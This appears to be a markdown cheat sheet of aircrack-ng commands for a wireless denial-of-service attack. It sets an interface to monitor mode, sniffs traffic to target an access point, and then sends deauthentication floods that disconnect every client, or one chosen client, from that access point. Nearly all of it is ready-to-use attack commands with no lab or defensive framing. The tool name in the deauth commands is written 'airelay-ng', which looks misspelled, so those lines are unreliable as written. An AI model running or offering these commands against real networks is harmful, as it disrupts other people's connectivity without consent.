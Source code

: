 # Performing DoS Attack with AirCrack Toolkit

## Killing wireless interface blocking processes
```
airmon-ng check kill
```

## Switching wireless interface into monitoring mode
```
airmon-ng start wlan0
```

## Sniffing wireless traffic on all channels
```
airodump-ng wlan0mon
```

## Sniffing wireless traffic on selected channel (channel 1 in following example)
```
airodump-ng -c 1 wlan0mon
```

## Sniffing wireless traffic on selected channel and selected AP MAC
```
airodump-ng -c 1 --bssid 1c:1d:86:b6:c4:e0 wlan0mon
```

## Performing DoS attack to disconnect all clients connected to the provided Access Point (AP)
- Run the following command in new terminal window in parallel with airodump-ng command
```
airelay-ng -0 0 -a 1c:1d:86:b6:c4:e0 wlan0mon
```

## Performing DoS attack to disconnect selected client connected to the provided Access Point (AP)
- Run the following command in new terminal window in parallel with airodump-ng command
```
airelay-ng -0 0 -a 1c:1d:86:b6:c4:e0 -c c2:f1:81:e6:77:f4 wlan0mon
```

